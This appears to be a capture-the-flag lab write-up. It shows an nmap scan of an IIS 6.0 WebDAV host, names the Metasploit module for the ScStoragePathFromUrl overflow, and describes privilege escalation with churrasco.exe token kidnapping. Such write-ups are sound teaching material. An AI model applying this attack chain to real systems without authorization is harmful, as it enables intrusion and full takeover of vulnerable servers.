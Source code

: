 Nmap scan

```
# Nmap 7.40 scan initiated Fri Jul 21 04:41:25 2017 as: nmap -sV -sC -oA nmap 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.33s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unkown
|   Server Date: Thu, 20 Jul 2017 20:42:02 GMT
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 21 04:42:16 2017 -- 1 IP address (1 host up) scanned in 50.31 seconds

```

I searched for some exploits in webdav and found one.

```
exploit/windows/iis/iis_webdav_scstoragepathfromurl       2017-03-26       manual      Microsoft IIS WebDav ScStoragePathFromUrl Overflow
```

That exploit can be used to have a meterpreter session.

After I got a session it turns out that the machine privileges has the Token privs something by running the **getprivs** command. So I searched for the token kidnapping exploit and it was available in exploit-db site: https://www.exploit-db.com/exploits/6705/

I uploaded the exe file \(churrasco.exe\) and executed it on the command prompt of the vulnerable machine and it turns out that I had an Administrator privilege on the machine.

```
> churrasco.exe "cmd.exe"
```

The command means  that the churrasco.exe will run the given command which is the "cmd.exe".

